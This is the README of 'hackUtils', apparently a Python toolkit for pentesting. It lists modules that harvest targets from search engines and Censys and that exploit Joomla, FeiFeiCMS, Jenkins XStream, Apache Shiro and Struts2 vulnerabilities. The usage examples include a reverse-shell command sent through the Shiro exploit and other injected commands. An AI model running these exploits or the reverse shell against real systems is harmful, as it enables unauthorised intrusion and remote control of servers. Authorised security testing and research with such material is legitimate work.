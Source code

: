 # hackUtils
It is a hack tool kit for pentest and web security research, which is based on BeautifulSoup bs4 module http://www.crummy.com/software/BeautifulSoup/bs4/. 

Usage: 

    hackUtils.py [options]

Options:

    -h, --help                                  Show basic help message and exit
    -b keyword, --baidu=keyword                 Fetch URLs from Baidu based on specific keyword
    -g keyword, --google=keyword                Fetch URLs from Google based on specific keyword
    -i keyword, --censysip=keyword              Fetch IPs from Censys based on specific keyword
    -u keyword, --censysurl=keyword             Fetch URLs from Censys based on specific keyword
    -w keyword, --wooyun=keyword                Fetch URLs from Wooyun Corps based on specific keyword
    -j url|file, --joomla=url|file              Exploit SQLi for Joomla 3.2 - 3.4
    -r url|file, --rce=url|file                 Exploit Remote Code Execution for Joomla 1.5 - 3.4.5
    -f url|file, --ffcms=url|file               Exploit Remote Code Execution for FeiFeiCMS 2.8
    -k ip|file[::cmd], --jenkins=ip|file[::cmd] Exploit Remote Code Execution for XStream (Jenkins CVE-2016-0792)
    -o url|file[::cmd], --shiro=url|file[::cmd] Exploit Remote Code Execution for Apache Shiro 1.2.4
    -s url|file, --s2032=url|file               Exploit Remote Code Execution for Struts2 (S2-032)
    -d site, --domain=site                      Scan subdomains based on specific site
    -e string, --encrypt=string                 Encrypt string based on specific encryption algorithms (e.g. base64, md5, sha1, sha256, etc.)


Examples:

    hackUtils.py -b inurl:www.example.com
    hackUtils.py -g inurl:www.example.com
    hackUtils.py -i 1099.java-rmi
    hackUtils.py -u 1099.java-rmi
    hackUtils.py -w .php?id=
    hackUtils.py -j http://www.joomla.com/
    hackUtils.py -j urls.txt
    hackUtils.py -r http://www.joomla.com/
    hackUtils.py -r urls.txt
    hackUtils.py -f http://www.feifeicms.com/
    hackUtils.py -f urls.txt
    hackUtils.py -k 10.10.10.10
    hackUtils.py -k 10.10.10.10::dir
    hackUtils.py -k ips.txt
    hackUtils.py -k ips.txt::"touch /tmp/jenkins"
    hackUtils.py -o http://www.shiro.com/::"bash -i >& /dev/tcp/202.xxx.xxx.90/12307 0>&1"
    hackUtils.py -o urls.txt::"touch /tmp/shiro"
    hackUtils.py -s http://www.struts2.com/index.action
    hackUtils.py -s urls.txt
    hackUtils.py -d example.com
    hackUtils.py -e text

Change Logs:

****2016.08.08****

    1. Add exploit module for Apache Shiro 1.2.4 Remote Code Execution

****2016.04.26****

    1. Add exploit module for Struts 2 (S2-032) Remote Code Execution

****2016.03.10****

    1. Modify exploit payload for XStream (Jenkins CVE-2016-0792) Remote Code Execution

****2016.03.02****

    1. Add exploit module for XStream (Jenkins CVE-2016-0792) Remote Code Execution

****2016.02.29****

    1. Add Censys URLs fetching module

****2016.02.24****

    1. Add Censys IPs fetching module
    2. Add exploit module for FeiFeiCMS 2.8 Remote Code Execution

****2015.12.23****

    1. Update Baidu URLs fetching module
    2. Update Wooyun URLs fetching module
    3. Update Subdomains Scan module

****2015.12.17****

    1. Modify exploit payload for Joomla 1.5 - 3.4.5 - Object Injection Remote Code Execution

****2015.12.16****

    1. Add exploit module for Joomla 1.5 - 3.4.5 - Object Injection Remote Code Execution

[!] legal disclaimer: Usage of hackUtils for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

声明：仅作学习使用，任何人不可用于非法目的，否则一切后果由其本人承担!
